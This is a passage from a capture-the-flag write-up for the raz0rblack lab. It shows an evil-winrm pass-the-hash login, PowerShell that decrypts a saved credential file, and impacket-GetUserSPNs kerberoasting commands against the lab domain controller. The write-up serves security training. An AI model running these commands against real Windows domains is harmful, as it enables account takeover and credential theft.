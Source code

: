 ```shell
evil-winrm -i raz0rblack.thm -u lvetrova -H Hash
```

There is a file in the home directory named `lvetrova.xml` that seems to contain the flag in a coded format. Read this blog for an understanding on how to decrypt: https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx 

![](attachments/20240515150831.png)

Using this powershell syntax we can decode the xml string to get the flag

![](attachments/20240515151419.png)

```powershell
$Credential = Import-Clixml -Path lvetrova.xml
$Credential.GetNetworkCredential().password
```

# What is Xyan1d3's password?

Next up with valid credentials for `lvetrova` we can perform kerberoasting attack using `GetUserSPNs`

Both users `twilliams` and `lvetrova` can perform this attack but for `lvetrova`, you'll need to double the hash you got earlier NT:NT

```shell
impacket-GetUserSPNs -dc-ip 10.10.13.185 raz0rblack.thm/lvetrova -hashes NT:NT
impacket-GetUserSPNs -dc-ip 10.10.13.185 raz0rblack.thm/twilliams:PASSWORD
```

![](attachments/20240515154738.png)
